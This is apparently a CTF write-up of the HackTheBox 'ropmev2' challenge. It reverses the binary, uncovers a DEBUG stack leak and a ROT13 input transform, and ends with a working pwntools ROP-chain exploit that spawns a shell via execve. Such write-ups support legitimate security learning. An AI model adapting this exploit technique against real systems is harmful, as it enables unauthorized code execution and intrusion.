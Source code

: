 ```yaml
---
layout: single
title: "HTB ropmev2 Writeup by c4e"
header:
  teaser: /assets/images/teasers/challenges/ropmev2.png
excerpt: "ropmev2 was a fun binary exploitation challenge by [r4j](https://twitter.com/r4j0x00) in which we needed to rop our way through some twists to be able to build a successful exploit."
---
```

ropmev2 was a fun binary exploitation challenge by [r4j](https://twitter.com/r4j0x00) in which we needed to rop our way through some twists to be able to build a successful exploit.

We start by looking at the surface aspects of the binary. It is a 64-bit binary and `checksec` only reveals the NX protection. 

We use r2 to reverse it and figure out the execution flow. Basically everything is handled in the main function, so there's not much to say here.

![](/content/c4e/ropmev2/r2.png)

We ses printf prints the "welcoming" string: `"Please dont hack me"`, then there's a call to `read` that reads 500 bytes from stdin. Right after that there's an interesting call to `strcmp` that compares the entered string with `"DEBUG"` and then, if it is equal, printf gives us what at first glance seems to be a pointer loaded from a local variable. We can check out what it actually is by running the binary, inputting `"DEBUG"` and then analyzing with gdb.

We can break right after the call to `printf`: at `0x004011ee`. We can see that the binary outputted a value that seems to be the beginning of our stack. 

![](/content/c4e/ropmev2/gdb.png)

This leaked value could potentially be useful if we want to skip writing a `"/bin/sh"` to memory because instead we can simply use a stack address.

We run the binary for a quick test to see if what we input can modify the execution flow at all and we immediately notice something weird. If we input say `"A"*512` we cause a segmentation fault, but every overflowed register points to a string of all `"N"s`. These are not the `"A"s` we entered! There is clearly something happening in the background here.
At the end of `main` there was a call to an unusual function: `sub.strlen_238`. Taking a quick look at it, it seems this is the function causing this weird behavior. It can be hard to understand what this function does only reading asm code, so we'll open it in Ghidra to hopefully get some useful pseudocode :)

Once in Ghidra, we find the function and take a look at its decompilation:

![](/content/c4e/ropmev2/ghidra.png)

It seems all the function does is it subtracts `0xd` to every entered character `a-z;A-Z`. Hmmm... `0xd=13`, this function applies ROT13 to our input!

That figured out, using cyclic we can easily find the offset at which our input starts modifying the execution flow. We have to remember to ROT13 it before we check for an offset. We originally got `"rnnpsnnp"` overflowing into `RSP`, so after aplying the conversion we can check for an offset with `cyclic -l eaacfaac`:

![](/content/c4e/ropmev2/cyclic.png)

We have our offset at `216`. From here we can begin focusing into building our rop chain.

Looking at the binary more closely, we can find all the gadgets we nith + a syscall! This means the challenge is practically solved. We will load `59` into `RAX` for an execve syscall, load `"/bin/sh"` into `RDI` as our argument, and then zero out `RSI` and `RDX` to avoid any potential problems. For our pointer to the `"/bin/sh"` string, we can simply calculate the difference between the leaked value by our `"DEBUG"` input to the address were our second input gets stored. From there we can simply begin our payload with `"/bin/sh"`, put a bunch of junk in front of it to fill the offset until we overwrite `RSP`, and begin our rop chain. 

The final exploit looks like this (remember ROT13, we have to convert our `"/bin/sh"` to `"/ova/fu"` so that it gets converted back to `"/bin/sh"` by the binary):

```python
#!/usr/bin/python
from pwn import *

p = process("./ropmev2")

junk = "/ova/fu\x00".ljust(216, "A")

# Addresses
syscall = p64(0x0000000000401168)
pop_rax = p64(0x0000000000401162)
pop_rdi = p64(0x000000000040142b)
pop_rsi_r15 = p64(0x0000000000401429)
pop_rdx_r13 = p64(0x0000000000401164)

p.recvuntil("me")
p.sendline("DEBUG")
p.recvline()
leak = str(p.recvline())[-15:]
log.info("Leaked address: " + leak)

binsh = int(leak, 16) - 0xe0

payload = (junk
        + pop_rdi
        + p64(binsh)
        + pop_rax
        + p64(0x3b)
        + pop_rsi_r15
        + p64(0x00)*2
        + pop_rdx_r13
        + p64(0x00)*2
        + syscall)

p.recvuntil("me")
p.sendline(payload)

p.interactive()
```

And it gives us a local shell!

Now, the remote instance of the binary running in HTB servers had another twist: *there was no /bin/sh on the server*. When I was first doing the challenge I did struggle a lot with this, but it truly has a simple solution to it: all we need to do is change our `"/bin/sh"` (`"/ova/fu"`) to `"/bin/bash"` (`"/ova/onfu"`). That will give us a remote shell get us the flag for the challenge.

Hopefully this writeup was enjoyable and simple to understand, if you have any questions don't hesitate to contact me (c4e) on any of my socials or leave a comment below.
